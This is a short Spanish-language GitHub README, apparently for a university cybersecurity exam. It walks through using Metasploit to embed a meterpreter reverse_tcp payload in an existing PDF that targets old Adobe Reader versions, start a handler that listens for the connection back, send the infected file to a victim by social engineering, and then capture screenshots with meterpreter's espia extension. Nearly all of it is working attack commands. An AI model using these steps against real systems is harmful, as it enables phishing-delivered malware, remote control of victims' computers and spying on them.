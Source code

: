 # -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Vídeo:

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x <br />
<br />
use exploit/windows/fileformat/adobe_pdf_embedded_exe <br />
set payload windows/meterpreter/reverse_tcp <br />
set lhost <ip_maquina_local> <br />
set lport 4444 <br />
set infilename /{path}/{nombre_pdf_a_infectar}.pdf <br />
exploit <br />
<br />
back <br />
use exploit/multi/handler <br />
set lhost <ip_maquina_local> <br />
set lport 4444 <br />
exploit <br /> 
<br />
Ir a la carpeta donde se ha creado el archivo infectado <br />
Enviar archivo a la máquina que se desea atacar <br />
cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter<br />
<br />
load espia<br />
screengrab

